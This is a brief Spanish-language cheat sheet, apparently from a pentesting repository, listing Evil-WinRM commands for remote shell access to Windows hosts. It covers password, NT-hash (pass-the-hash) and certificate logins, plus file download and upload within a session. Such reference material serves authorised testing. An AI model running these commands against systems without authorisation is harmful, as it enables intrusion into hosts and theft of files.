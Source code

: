 # Evil-WinRM Cheat Sheet

#### Conexión usando usuario y contraseña
```
evil-winrm -i <IP-TARGET> -u '<USER>' -p '<PASSWORD>'
```

#### Conexión usando un NT Hash
```
evil-winrm -i <IP-TARGET> -u '<USER>' -H ':<NT-HASH>'
```

#### Conexión por SSL y proporcionando llave publica y privada
```
evil-winrm -i <IP-TARGET> -c <CERTIFICATE.pem> -k <PRIVATE-KEY.pem> -S
evil-winrm -i <IP-TARGET> -c <CERTIFICATE.pem> -k <PRIVATE-KEY.pem> -S -u '<USER>' -p '<PASSWORD>'
```

#### Descargar un archivo dentro de sesión evil-winrm
```
Evil-WinRM> download C:\PATH\<FILE>
```

#### Cargar un archivo dentro de sesión evil-winrm
```
Evil-WinRM> upload <FILE>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)